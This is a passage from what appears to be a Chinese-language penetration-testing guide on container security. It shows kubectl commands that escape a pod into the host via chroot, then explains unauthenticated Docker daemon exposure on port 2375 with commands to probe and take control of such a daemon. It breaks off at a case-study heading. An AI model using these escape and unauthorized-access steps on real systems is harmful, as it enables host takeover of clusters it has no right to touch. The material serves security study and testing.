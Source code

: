 ````plain

#在 default 命名空间中创建 pod
kubectl apply -f pod.yaml -n default --insecure-skip-tls-verify=true

#进入容器中
kubectl exec -it test-444 bash -n default --insecure-skip-tls-verify=true

#切换 bash，逃逸成功
cd /host
chroot ./ bash
````

### Docker Daemon 公网暴露

Docker以C/S模式工作，其中docker daemon服务在后台运行，负责管理容器的创建、运行和停止操作。  
在Linux主机上，docker daemon监听在/var/run/docker.sock中创建的unix socket，2375端口用于未认证的HTTP通信，2376用于可信HTTPS通信。  
在最初版本安装Docker时默认会把2375端口对外开放，目前默认只允许本地访问。

管理员开启远程访问的配置如下：

```plain
#开启远程访问
vim /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 -containerd=/run/containerd/containerd.sock
```

Docker Daemon未授权访问的检测与利用：

```plain
#探测是否访问未授权访问
curl http://192.168.238.129:2375/info
docker -H tcp://192.168.238.129:2375 info

#推荐使用这种方式，操作方便。
export DOCKER_HOST="tcp://192.168.238.129:2375"
```

Docker Daemon未授权实战案例：  